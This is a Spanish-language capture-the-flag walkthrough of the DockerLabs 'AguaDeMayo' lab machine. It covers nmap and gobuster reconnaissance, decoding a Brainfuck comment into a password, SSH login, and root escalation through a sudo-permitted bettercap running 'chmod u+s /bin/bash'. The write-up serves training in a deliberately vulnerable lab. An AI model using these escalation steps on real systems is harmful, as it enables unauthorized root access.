 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "AguaDeMayo".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh aguademayo.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene dos puertos abiertos: el 22 (SSH) y el 80 (HTTP)
```
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
```
Como no tenemos ni usuario ni contraseña aun para atacar el puerto 22, vamos a probar poniendo la direccion IP en el navegador.

Sin embargo, aparece la tipica pagina de Apache, por lo que vamos a pulsar "CTRL + U" para ver si hay algo interesante en el codigo fuente y, tras bajar y bajar, vemos un "texto" comentado:
```
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```
Despues de buscar por internet, parece ser que es un tipo de codigo que pertenece a "Brainfuck", por lo que vamos a buscar algun "decodificador" en Google.

En mi caso, esta pagina: "https://www.dcode.fr/brainfuck-language" donde introducimos el texto anterior para ver que obtenemos y el resultado es este:
```
bebeaguaqueessano
```
Vale, ya tenemos algo que no sabemos si es un usuario o una contraseña, por lo que vamos a hacer algo de  FUZZING WEB con "gobuster" para ver si conseguimos algo mas de informacion:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,asp,aspx,jsp,html -t 20
```
Vemos que encuentra un directorio llamado "/images". El resto no parece que sean relevantes:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/index.html           (Status: 200) [Size: 11142]
/.html                (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1453501 / 1453508 (100.00%)
===============================================================
Finished
===============================================================
```
Accedo entonces, desde el navegador y vemos que hay un archivo que se llama: "agua_ssh.jpg" por lo que procederemos a descargarlo con "wget", por ejemplo:
```
wget http://172.17.0.2/images/agua_ssh.jpg

--2024-08-04 01:43:44--  http://172.17.0.2/images/agua_ssh.jpg
Conectando con 172.17.0.2:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 50517 (49K) [image/jpeg]
Grabando a: «agua_ssh.jpg»

agua_ssh.jpg                 100%[===============================================>]  49,33K  --.-KB/s    en 0s    

2024-08-04 01:43:44 (2,11 GB/s) - «agua_ssh.jpg» guardado [50517/50517]
```
Una vez descargada, la abrimos y vemos que solo es una imagen sin relevancia, por lo que probaremos primero con la herramienta "exiftool" a ver si hay algo en los metadatos:
```
exiftool agua_ssh.jpg


ExifTool Version Number         : 12.76
File Name                       : agua_ssh.jpg
Directory                       : .
File Size                       : 51 kB
File Modification Date/Time     : 2024:05:14 19:43:34+02:00
File Access Date/Time           : 2024:08:04 01:45:31+02:00
File Inode Change Date/Time     : 2024:08:04 01:43:44+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 640
Image Height                    : 427
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 640x427
Megapixels                      : 0.273
```
Pero no parece que haya nada. Es momento de probar si hay algo oculto mediante esteganografia con "steghide":
```
steghide extract -sf agua_ssh.jpg

Anotar salvoconducto: 
steghide: ¡no pude extraer ningún dato con ese salvoconducto!
```
Pero tampoco encontramos nada, tal y como acabamos de ver. Asi que vamos a tirar un poco de fuerza bruta con HYDRA y vamos a ver si usando la palabra "bebeaguaqueessano" podemos conseguir bien un usuario o bien una contraseña.

Tras perder MUCHO tiempo y no obtener nada, he tenido que mirar una guia y resulta que el usuario era "agua". WTF ^_^U!!

En fin, volviendo a la maquina y ya teniendo el usuario y la contraseña, accedemos via SSH:
```
ssh agua@172.17.0.2
```
Tras poner "yes" e introducir despues la contraseña, ya estariamos dentro, por lo que empezariamos probando escaladas de privilegios tipicas, empezando por "sudo -l":
```
agua@224d3419cff1:~$ sudo -l
Matching Defaults entries for agua on 224d3419cff1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 224d3419cff1:
    (root) NOPASSWD: /usr/bin/bettercap
    
agua@224d3419cff1:~$ 
```
Si ejecutamos el binario, obtenemos una especie de "shell":
```
sudo -u root /usr/bin/bettercap

bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [00:20:52] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  »
```
Como no se usarlo, ejecuto el comando "help" tal y como nos dicen arriba, para obtener informacion y comandos a ejecutar:
```
172.17.0.0/16 > 172.17.0.2  » help

help MODULE : List available commands or show module specific help if no module name is provided.

active : Show information about active modules.

quit : Close the session and exit.

sleep SECONDS : Sleep for the given amount of seconds.

get NAME : Get the value of variable NAME, use * alone for all, or NAME* as a wildcard.

set NAME VALUE : Set the VALUE of variable NAME.

read VARIABLE PROMPT : Show a PROMPT to ask the user for input that will be saved inside VARIABLE.

clear : Clear the screen.

include CAPLET : Load and run this caplet in the current session.

! COMMAND : Execute a shell command and print its output. <=== INTERESANTE !!

alias MAC NAME : Assign an alias to a given endpoint given its MAC address.
```
Si nos fijamos hay un comando que es "!" que nos permite ejecutar una "shell command", por lo que vamos a utilizar esta opcion:
```
172.17.0.0/16 > 172.17.0.2  » ! chmod u+s /bin/bash
```
Una vez ejecutado, salimos y ejecutamos el comando "bash -p", lo cual, tal y como se puede ver abajo, nos da un prompt con e usuario "root":
```
172.17.0.0/16 > 172.17.0.2  » exit

open /proc/sys/net/ipv4/ip_forward: read-only file systemagua@224d3419cff1:~$ bash -p

bash-5.2# whoami
root

bash-5.2# 
```
Y listo, la maquina estaria ya hecha.
